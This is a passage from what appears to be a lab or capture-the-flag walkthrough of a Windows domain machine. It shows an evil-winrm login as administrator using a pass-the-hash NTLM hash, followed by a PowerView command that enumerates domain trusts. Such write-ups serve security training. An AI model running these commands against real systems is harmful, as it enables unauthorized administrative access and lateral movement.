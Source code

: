 ![image.png](../images/trusted%2028.png)

now let’s try to winrm as administrator

```bash
evil-winrm -i lab.trusted.vl -u administrator -H 75878369ad33f35b7070ca854100bc07
```

![image.png](../images/trusted%2029.png)

Now let’s enumerate the domain trust

```bash
Get-DomainTrust
```
